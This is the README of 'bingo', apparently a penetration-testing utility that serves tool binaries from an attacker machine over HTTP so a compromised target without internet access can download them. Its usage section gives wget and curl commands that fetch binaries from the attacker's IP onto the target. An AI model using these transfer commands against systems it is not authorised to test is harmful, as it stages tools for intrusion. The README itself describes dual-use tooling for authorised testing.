 # bingo - Penetration Testing Toolkit

bingo facilitates the distribution and execution of essential tools for penetration testing, allowing the attacker to fetch them on the target machine without internet access on it.

## Installation

1. **Clone the Repository:**
   ```bash
   git clone https://github.com/luskabol/bingo.git
   cd bingo

2. **Install dependencies**
    ```bash
    pip install -r requirements.txt

## Usage

1. **On the attacker machine:**
    ```bash
    python3 bingo.py
    ```

2. **On the target machine:**
    ```bash
    wget http://{your-internal-IP}:8000/get/{binary-name} -O {path-to-output-file}
    ```

    **If the target doesn't have wget:**
    ```bash
    curl http://{your-internal-IP}:8000/get/{binary-name} -o {path-to-output-file}
    ```

- Replace {your-internal-IP} with the attacker's machine IP.

- Replace {binary-name} with the name of the binary you want to get, check `bingo.yaml` for available binaries.

- Replace {path-to-output-file} with the location where you want to save the binary.
